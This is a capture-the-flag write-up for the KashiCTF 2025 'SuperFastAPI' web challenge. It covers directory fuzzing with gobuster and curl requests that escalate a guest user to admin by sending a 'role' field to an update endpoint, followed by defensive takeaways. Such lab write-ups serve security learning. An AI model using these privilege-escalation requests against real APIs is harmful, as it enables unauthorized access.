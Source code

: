 ```yaml
---
title: KashiCTF 2025 - web - SuperFastAPI
date: 2025-02-24 20:00:00 +0530
categories: [CTF, kashictf-2025]
tags: [web,api]     # TAG names should always be lowercase
description: 
toc: true
comments: false
# pin: true
# published: false
---
```



## Recon

This challenge was part of a web-based CTF event, and the name itself, "SuperFastAPI," hinted that it was related to an API. Upon visiting the provided URL, the page displayed a simple JSON response:

```json
{"message":"Welcome to my SuperFastAPI. No frontend tho - visit sometime later :)"}
```

There was no visible frontend or further clues, so I began directory fuzzing to discover hidden endpoints. Using `gobuster`, I found a `/docs` directory:

```bash
➜  ~ gobuster dir -u http://webchallurl.com/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt      
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://webchallurl.com/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 200) [Size: 936]
Progress: 4728 / 4729 (99.98%)
===============================================================
Finished
===============================================================
```

## Analysis

Visiting the `/docs` endpoint revealed a detailed API documentation page that outlined available API routes and how to interact with them. The key endpoints included:

- `/create/{username}` - User creation
- `/get/{username}` - Retrieve user information
- `/update/{username}` - Update user information
- `/flag/{username}` - Retrieve the flag (restricted)

![Desktop View](/assets/img/ctf/kashictf2025/web-superfastapi-docs.png){: .w-75 .shadow .rounded-20 w='1212' h='668'  }

The documentation provided an option to execute requests directly, but I chose to use `curl` for better control.

## Exploitation

### Step 1: Creating a User

To interact with the API, I first created a user using the `/create/{username}` endpoint. The request required passing a username in the URL and user details as JSON data.

```bash
curl -X 'POST' \
  'http://webchallurl.com/create/test' \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{
  "fname": "ftest",
  "lname": "ltest",
  "email": "test@test.com",
  "gender": "male"
}'
---
{"message":"User created!"}
```

### Step 2: Retrieving User Information

After creating a user, I checked the user details using the `/get/{username}` endpoint:

```bash
➜  ~ curl -X 'GET' \
  'http://webchallurl.com/get/test' \
  -H 'accept: application/json' | jq
```

The response contained the user details, including a `role` field:

```json
{
  "message": {
    "fname": "ftest",
    "lname": "ltest",
    "email": "test@test.com",
    "gender": "male",
    "role": "guest"
  }
}
```

The `role` was set to `guest`, which indicated role-based access control. When I attempted to access the `/flag/{username}` endpoint, I received an error:

```bash
➜  ~ curl -X 'GET' \
  'http://webchallurl.com/flag/test' \
  -H 'accept: application/json'
---
{
  "error": "Only for admin"
}
```

### Step 3: Privilege Escalation

To bypass this restriction, I attempted to modify my role to `admin`. The API documentation provided an `/update/{username}` endpoint, which allowed modifying user details. I sent the following request:

```bash
➜  ~ curl -X 'PUT' \
  'http://webchallurl.com/update/test' \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{
  "fname": "ftest",
  "lname": "ltest",
  "email": "test1@test2.com",
  "gender": "male",
  "role": "admin"
}'
```

The response confirmed that the update was successful:

```json
{"message":"User created!"}
```

### Step 4: Retrieving the Flag

Now that my role was set to `admin`, I attempted to access the `/flag/{username}` endpoint again. This time, I successfully retrieved the flag.

## Conclusion

This CTF challenge demonstrated an API security vulnerability where users could escalate privileges by modifying their own role. The key takeaways from this challenge include:

- Always check for API documentation leaks (`/docs` directories in FastAPI, Swagger, etc.).
- Role-based access control should be enforced server-side, not just through client-side validation.
- API endpoints allowing user modification should have strict validation rules to prevent privilege escalation.

This was a straightforward yet insightful challenge that emphasized the importance of securing API endpoints properly. Always validate and sanitize user input, and implement proper authorization checks at the backend!

